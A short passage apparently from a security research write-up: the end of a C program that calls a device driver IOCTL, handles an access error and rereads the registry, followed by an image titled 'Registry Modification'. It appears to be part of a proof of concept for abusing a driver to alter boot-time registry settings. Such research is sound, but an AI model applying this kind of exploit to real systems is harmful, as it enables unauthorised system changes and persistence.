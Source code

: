 ```c
    {
        wprintf(L"[-] Unable to call IOCTL. Please check for permission access to the device.\n");
        CloseHandle(h);
        return 2;
    }
    
    CloseHandle(h);

    ReadRegistry(L"Registry After");
    return 0;
}
```
![Registry Modification](https://raw.githubusercontent.com/nafiez/nlabs.github.io/master/images/setbootexec.png)
